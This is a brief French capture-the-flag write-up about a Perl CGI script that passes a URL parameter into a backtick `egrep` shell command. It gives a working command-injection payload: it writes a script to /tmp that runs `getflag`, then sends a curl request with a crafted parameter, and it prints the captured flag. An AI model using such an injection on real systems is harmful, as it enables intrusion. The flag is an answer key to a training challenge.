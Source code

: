 1. En regardant le fichier perl on comprends que son fonctionnement
2. La ligne la plus importante est celle-ci `@output = `egrep "^$xx" /tmp/xd 2>&1`;`
3. On ecrit donc un payload permettant d'exploiter la vulnerabilite
   ```
   echo -e "#! /bin/bash\ngetflag > /tmp/l1;" > /tmp/xd

   chmod +x /tmp/xd

   curl '127.0.0.1:4646/?x="<.||".'

   cat /tmp/l1
   ```

> Flag: g1qKMiRpXf53AWhDaU7FEkczr
